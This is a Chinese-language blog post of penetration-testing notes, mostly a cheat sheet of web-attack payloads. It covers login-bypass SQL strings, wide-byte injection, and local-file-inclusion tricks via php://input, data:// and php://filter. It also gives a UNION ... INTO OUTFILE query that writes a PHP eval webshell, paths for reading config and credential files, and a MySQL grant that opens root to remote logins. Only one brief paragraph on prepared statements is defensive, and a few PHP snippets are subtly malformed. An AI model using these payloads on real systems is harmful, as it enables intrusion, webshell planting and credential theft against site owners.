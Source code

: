 ```yaml
---
layout: post
title:  渗透测试碎碎念
category: security
tags: [渗透测试碎碎念]
keywords: 渗透测试碎碎念
description: 渗透测试碎碎念
---  
```


## 渗透测试碎碎念  
渗透过程中一些知识点备忘：  

- 00截断适用于白名单绕过，但一定要程序代码有截断漏洞，所以不一定白名单都可以绕过  
- nginx php解析漏洞 xxx.jpg/xxx.php  xxx.jpg%00.php 
- Linux 提权：1.查看系统信息 lsb_release -a  uname -a   
2.找exp  
- PHP的流  http://192.168.160.13/index.php?url=zip:///var/www/html/upload/0e9982a96ad4cac58adb1a6e74e52aa2.zip%23yijuhua    
zip文件中的内容：<?php  _GET[a](_GET[b]);?>  
- 登录的万能密码：  
admin' or '1'='  
admin'#  
') or('a'='a  
- PHP 默认magic_quotes_gpc打开，转义单引号、双引号，php SQL注入容易出出现在整数型注入  
防范SQL注入，预编译prepare=参数化查询、过滤关键字  
那为什么它这样处理就能预防SQL注入提高安全性呢？其实是因为SQL语句在程序运行前已经进行了预编译，在程序运行时第一次操作数据库之前，SQL语句已经被数据库分析，编译和优化，对应的执行计划也会缓存下来并允许数据库已参数化的形式进行查询，当运行时动态地把参数传给PreprareStatement时，即使参数里有敏感字符如 or '1=1'也数据库会作为一个参数一个字段的属性值来处理而不会作为一个SQL指令，如此，就起到了SQL注入的作用了！  
- 宽字节注入  
举个例子，假设/1 .php?id=1里面的id参数存在宽字节注人漏洞，当提交/1 .php?id=-1’ and 1=1%23时，MySQL运行的SQL语句为：  


    select * from user where id='1\' and 1=1#'  



很明显这是没有注人成功的，我们提交的单引号被转义导致没有闭合前面的单引号，但是我们提交/1 .php?id=-1%df' and 1=1%23时，这时候MySQL运行的 SQL语句为：  


	select * from user where id='1運' and 1=1#'  

这是由于单引号被自动转义成\'，前面的%df和转义字符\反斜杠（%5c)组合成 了%df%5c，也就是“運”字，这时候单引号依然还在，于是成功闭合了前面的单引号。   
- 本地文件包含  

1.1 截断类型：php %00截断  

截断条件：  

php版本小于5.3.4   
php的magic_quotes_gpc为OFF状态  

1.2 文件路径长度截断  
系统文件路径长度限制：  

windows 259个bytes  
linux 4096个bytes  
php版本为5.3.4以下（具体哪个版本不是很清楚，乌云上kukki写的5.2.8以下，这明显是不对的，因为我测试用的5.2.9）  
GPC是否开启没关系  

php://input包含:在allow_url_include为On的情况下可用，不受版本限制  
    http://127.0.0.1/test.php?file=php://input  
    <?php phpinfo();?>  



    http://127.0.0.1/test.php?file=data://text/plain;base64,PD9waHAKcGhwaW5mbygpOwo/Pgo=  

在allow_url_include为On的情况下可用  


    php://filter/read=convert.base64-encode/resource=   

方法读取源码:基本都能用，路径被限制则失败  
- ereg有两个漏洞  

%00截断及遇到%00则默认为字符串的结束  

当ntf为数组时它的返回值不是FALSE  

- mysql 写入一句话木马  

    http://127.0.0.1/sqllib/Less-7/?id=1'))UNION SELECT 1,2,'<?php @eval($_post[“mima”])?>' into outfile "c:\\wamp\\www\\sqllib\\Less-7\\yijuhua.php"--+    

- find / -name index.php  查找网站路径  
- select '一句话' into outfile 'path'  
- select load_file('path') 读取文件  
- mysql>system 系统命令  
- phpmyadmin 2.11.b 2.11.4 存在万能密码  
- 获取绝对路径：  
1.报错；  
2.找配置文件：  

    c:\windows\php.ini  
    c:\windows\system32\inetsrv\MetaBase.xml  
    select 1,load_file('c:\\windows\\system32\\inetsrv\\MetaBase.xml')  
    /etc/php.ini  
	/etc/httpd/conf.d/php.conf  
	/etc/httpd/conf/httpd.conf  
	/usr/local/apache/conf/httpd.conf  
	/usr/local/apache2/conf/httpd.conf  
	system vi /etc/httpd/conf/httpd.conf  

搜索 path  
- 获取mysql用户名密码  
配置文件：conn、config、data、sql、common、inc  

查看数据库安装路径下mysql文件 /data/mysql/user.myd  
cmd5破解（*开头）  
- 菜刀数据库管理可以配置数据库，连接数据库，mysql开启root允许远程连接：  
 
    GRANT ALL PRIVILEGES ON *.* TO root@"%" IDENTIFIED BY "root";  
    flush privileges;   
- 寻找服务端口  

    tasklist /svc  
    netstat -ano  











		


